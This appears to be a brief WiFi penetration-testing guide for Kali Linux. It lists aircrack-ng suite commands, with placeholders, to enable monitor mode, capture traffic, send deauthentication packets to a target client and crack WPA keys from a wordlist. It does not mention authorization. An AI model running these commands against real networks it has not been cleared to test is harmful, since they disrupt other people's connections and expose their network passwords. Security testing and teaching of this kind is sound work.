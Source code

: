 Penetration Testing - WiFi

OS = Kali Linux Live Everything > You may download it from https://kali.org
Tools - aircrack-ng

Hardwares - Atheros 9721 or ALFA Model AWUS036NH
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter (Important! It should support "Monitor Mode" otherwise it will not work)

Tool	Purpose	Example Command

airmon-ng
Enable monitor mode
sudo airmon-ng start wlan0

airodump-ng
Capture network traffic
sudo airodump-ng -c 6 wlan0mon

aireplay-ng
Inject/deauth packets
sudo aireplay-ng -0 1 ...

aircrack-ng
Crack WPA/WEP keys
sudo aircrack-ng -w wordlist.lst ...


Kali Linux Commands:

1. ifconfig to check network interfaces
2. iwconfig to check wireless interfaces
 By default the wireless interface is in MANAGED MODE. 
3. airmon-ng stop wlan0 (if the interface is wlan0)
4. airmon-ng start wlan0 ( from stopping to start I will be gone into monitoring mode)
5. airodump-ng --bssid <BSSID> --channel <CHANNEL> -w <ESSID> wlan0 (or if its wlan0mon)
6. Open another terminal or terminal tab and then enter the following command
7. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0
8. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap

